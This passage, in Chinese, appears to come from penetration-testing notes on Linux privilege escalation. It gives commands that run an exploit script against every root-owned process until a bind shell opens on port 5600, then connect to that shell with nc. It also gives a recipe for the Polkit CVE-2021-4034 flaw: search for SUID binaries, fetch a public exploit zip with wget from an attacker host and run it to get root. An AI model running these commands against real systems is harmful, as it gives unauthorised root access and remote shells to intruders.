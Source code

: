 ### 3、 因需要root进程进行注入，编写脚本对root进程批量尝试  

 使用ps -aux | grep root获取到root用户权限执行的进程  

python2.7 exp.py 862   //这个不行可以换其他的进程号

netstat -an | grep 5600

批量尝试：

 for i in `ps -ef|grep root|grep -v "grep"|awk '{print $2}'`; do python2.7 exp.py $i; done  

###  4、脚本执行成功，可以看到5600端口正在监听 ，使用nc直接连接即可

nc 192.168.8.145 5600

## **Policykit suid提权（CVE-2021-4034）--通杀2021年之前的linux系统**

解析：[网安 | Linux Polkit 权限提升漏洞（CVE-2021-4034）](https://www.bilibili.com/read/cv22967681/)

利用工具地址：https://github.com/berdav/CVE-2021-4034

**find / -perm -u=s -type f 2>/dev/null   查找suid**

![img](assets/1695392346020-9c8f7ba2-1e87-4a8a-b689-2ca697f68170.png)

**wget http://192.168.8.138:443/CVE-2021-4034.zip**

**解压执行，root到手**
